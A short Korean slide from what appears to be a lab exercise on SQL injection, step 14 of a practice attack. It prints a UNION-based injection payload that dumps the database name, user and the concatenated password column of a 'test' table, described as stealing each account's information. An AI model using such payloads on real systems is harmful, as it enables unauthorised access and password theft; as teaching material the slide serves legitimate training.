

4. SQL 공격 실습 – 쿼리문 삽입으로 각 계정 정보 탈취
14.  SQL 쿼리문
‘union select 1,database(),3,4,user(),(select group_concat(pw) from test),7,8,9#’
을 삽입하여 테이블의 PW 필드 레코드 목록을 조회하여 각 계정 정보를 탈취합니다.